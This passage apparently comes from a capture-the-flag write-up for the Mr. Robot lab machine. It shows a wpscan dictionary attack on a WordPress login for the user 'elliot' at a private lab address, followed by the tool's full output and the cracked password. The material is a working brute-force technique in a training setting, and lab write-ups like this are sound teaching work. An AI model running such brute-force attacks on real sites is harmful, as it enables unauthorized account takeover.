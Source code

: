 It looks like we have our user `elliot`. Let's use our `fsocity_sorted.dic` and attempt a dictionary attack
```
root@kali:~# wpscan --url http://192.168.56.101 --wordlist=/root/fsocity_sorted.dic --username elliot --threads 20
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.3
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o [A]bort, default: [N]n
[+] URL: http://192.168.56.101/
[+] Started: Fri Feb  9 01:20:19 2018

[+] robots.txt available under: 'http://192.168.56.101/robots.txt'
[+] Interesting header: SERVER: Apache
[+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN
[+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523
[+] XML-RPC Interface available under: http://192.168.56.101/xmlrpc.php

[+] WordPress version 4.3.1 (Released on 2015-09-15) identified from advanced fingerprinting, rss generator, rdf generator, atom generator, links opml
[!] 45 vulnerabilities identified from the version number

[+] Enumerating plugins from passive detection ...
[+] No plugins found
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : elliot Password : ER28-0652                                                                                                           

  Brute Forcing 'elliot' Time: 00:01:59 <======================================                                         > (5640 / 11452) 49.24%  ETA: 00:02:03
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Fri Feb  9 01:22:19 2018
[+] Requests Done: 5697
[+] Memory used: 52.477 MB
[+] Elapsed time: 00:02:00
```
